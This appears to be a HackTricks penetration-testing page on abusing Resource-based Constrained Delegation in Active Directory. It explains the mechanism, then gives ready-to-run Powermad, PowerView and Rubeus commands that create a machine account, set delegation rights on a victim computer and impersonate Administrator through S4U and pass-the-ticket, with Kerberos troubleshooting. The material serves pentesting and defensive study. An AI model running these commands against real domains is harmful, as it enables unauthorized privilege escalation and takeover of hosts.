


# Resource-based Constrained Delegation

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Basics of Resource-based Constrained Delegation

This is similar to the basic [Constrained Delegation](constrained-delegation.md) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) can set the _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (In the other forms of Delegation you needed domain admin privs).

### New Concepts

Back in Constrained Delegation it was told that the **`TrustedToAuthForDelegation`** flag inside the _userAccountControl_ value of the user is needed to perform a **S4U2Self.** But that's not completely truth.\
The reality is that even without that value, you can perform a **S4U2Self** against any user if you are a **service** (have a SPN) but, if you **have `TrustedToAuthForDelegation`** the returned TGS will be **Forwardable** and if you **don't have** that flag the returned TGS **won't** be **Forwardable**.

However, if the **TGS** used in **S4U2Proxy** is **NOT Forwardable** trying to abuse a **basic Constrain Delegation** it **won't work**. But if you are trying to exploit a **Resource-Based constrain delegation, it will work** (this is not a vulnerability, it's a feature, apparently).

### Attack structure

> If you have **write equivalent privileges** over a **Computer** account you can obtain **privileged access** in that machine.

Suppose that the attacker has already **write equivalent privileges over the victim computer**.

1. The attacker **compromises** an account that has a **SPN** or **creates one** (“Service A”). Note that **any** _Admin User_ without any other special privilege can **create** up until 10 **Computer objects (**_**MachineAccountQuota**_**)** and set them a **SPN**. So the attacker can just create a Computer object and set a SPN.
2. The attacker **abuses its WRITE privilege** over the victim computer (ServiceB) to configure **resource-based constrained delegation to allow ServiceA to impersonate any user** against that victim computer (ServiceB).
3. The attacker uses Rubeus to perform a **full S4U attack** (S4U2Self and S4U2Proxy) from Service A to Service B for a user **with privileged access to Service B**.
   1. S4U2Self (from the SPN compromised/created account): Ask for a **TGS of Administrator to me** (Not Forwardable).
   2. S4U2Proxy: Use the **not Forwardable TGS** of the step before to ask for a **TGS** from **Administrator** to the **victim host**.
   3. Even if you are using a not Forwardable TGS, as you are exploiting Resource-based constrained delegation, it will work.
4. The attacker can **pass-the-ticket** and **impersonate** the user to gain **access to the victim ServiceB**.

To check the _**MachineAccountQuota**_ of the domain you can use:

```
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```csharp
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```


```bash
Get-DomainComputer SERVICEA #Check if created if you have powerview
```

### Configuring R**esource-based Constrained Delegation**

**Using activedirectory PowerShell module**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```


**Using powerview**

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.\
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

You can generate more tickets just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```


Note that users has an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him . This property can be seen inside bloodhound.




### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.\
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```



### Abuse different service tickets

Lear about the [**available service tickets here**](silver-ticket.md#available-services).

## Kerberos Errors

* **`KDC_ERR_ETYPE_NOTSUPP`**: This means that kerberos is configured to not use DES or RC4 and you are supplying just the RC4 hash. Supply to Rubeus at least the AES256 hash (or just supply it the rc4, aes128 and aes256 hashes). Example: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: This means that the time of the current computer is different from the one of the DC and kerberos is not working properly.
* **`preauth_failed`**: This means that the given username + hashes aren't working to login. You may have forgotten to put the "$" inside the username when generating the hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: This may mean:
  * The user you are trying to impersonate cannot access the desired service (because you cannot impersonate it or because it doesn't have enough privileges)
  * The asked service doesn't exist (if you ask for a ticket for winrm but winrm isn't running)
  * The fakecomputer created has lost it's privileges over the vulnerable server and you need to given them back.

## References

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
